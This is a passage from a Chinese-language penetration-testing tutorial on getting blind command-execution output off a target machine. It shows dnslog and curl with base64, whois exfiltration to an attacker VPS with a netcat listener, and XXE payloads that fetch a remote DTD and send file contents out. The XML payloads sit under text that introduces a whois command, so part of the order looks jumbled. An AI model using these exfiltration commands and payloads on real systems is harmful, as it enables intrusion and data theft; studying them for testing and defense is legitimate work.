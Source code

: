 你会得到一个 http 的请求，在请求中就是命令执行的结果

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0SE91PeX4kAxDAHFaI7xctfWO8HnKnsp3xFkAGNib5kXB2DbBUWriadnw/640?wx_fmt=other)

curl 结果

在某些极端情况下，你可能需要使用 base64 编码一下，因为可能某些命令返回的结果为中文

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0T0vlqmu3wiaEuvlenosvEUiav522cQj13hXx1IjHoZr54J5ccZyHUGww/640?wx_fmt=other)

base64 结果

去掉 /、- 以后，对结果进行还原就为命令执行以后的结果  

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0VqlzxCqhicLmicJ6ed1sicib4THMTzCbrmu6ubGEMa5Nnn6iac4oXO92wgg/640?wx_fmt=other)

原始结果

前面说的这些都是基于能解析 host 的时候执行的，然而在很多实际情况中，被渗透的机器根本不会配置 dns。在不配置 dns 的情况下，dnslog 就会失效，命令将返回 uknown host，由于无法解析 host，找不到 dnslog 的 ip，我们也无法从 dnslog 平台获得命令执行的结果。请接着看下文。

### **3. 利用 whois**

谈到 whois，很多人的第一反应应该是查域名从属吧。其实不然，whois 还可以用来回显命令执行的结果。

```
whois -h myip -p 6666 `uname`
whois -h myip -p 6666 `uname |base64`
```

这里我们需要自行准备一台 vps，其实就是有公网 ip 的机器，在机器上监听一个端口。例如我在我的 vps 上监听 6666，且在目标机器执行一个 uname  
`nc -l -p 6666 -vvv`  

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0icntsdXe0I2gjrUSe2icO0OxQUvyxzt0G0ExuHDK7FL6ZEAibxWs83pRw/640?wx_fmt=other)

监听 6666

那么我们就在目标机器上执行如下命令 (myip 为我的 vpsip)

```
#payload1
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://dnslog/随便输入字母">
%remote;]>
<root/>
#payload2
<!ENTITY % all
"<!ENTITY % send SYSTEM 'http://dnslog/%file;'>"
>
%all;
```

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0IWk0W63iaHmVckzFSSuHic5G5FDndaK8FG91Kk3gSw5JNZicw31BZQHkA/640?wx_fmt=other)

目标机
